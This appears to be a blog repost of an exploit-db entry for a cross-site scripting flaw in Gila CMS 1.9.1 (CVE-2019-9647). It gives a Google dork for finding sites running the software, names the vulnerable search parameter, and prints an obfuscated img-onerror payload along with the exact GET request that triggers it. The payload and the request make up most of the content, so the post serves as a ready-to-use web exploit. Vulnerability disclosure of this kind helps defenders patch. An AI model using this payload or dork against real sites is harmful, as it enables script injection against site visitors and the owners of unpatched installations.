 ```yaml
---
layout:     post
title:      "Gila CMS 1.9.1 - Cross-Site Scripting"
date:       2019-03-19 12:34
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [xss, cross site scripting, exploit-db]
---
```


# Exploit Title: Gila CMS (search) Cross Site Scripting
# Google Dork: intext:"Powered By Gila CMS"
# Date: 11.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://gilacms.com
# Software Link: https://gilacms.com/packages/downloadRelease/1.9.1.zip
# Demo Site: https://gilacms.com/demo/
# Version: 1.9.1
# Tested on: Kali Linux
# CVE: CVE-2019-9647

# Vulnerable Parameter: search

# Payload: <--`<img/src=` onerror=confirm``> --!>

# GET Request: http://localhost/?search=<--`<img/src=` onerror=confirm``> --!>

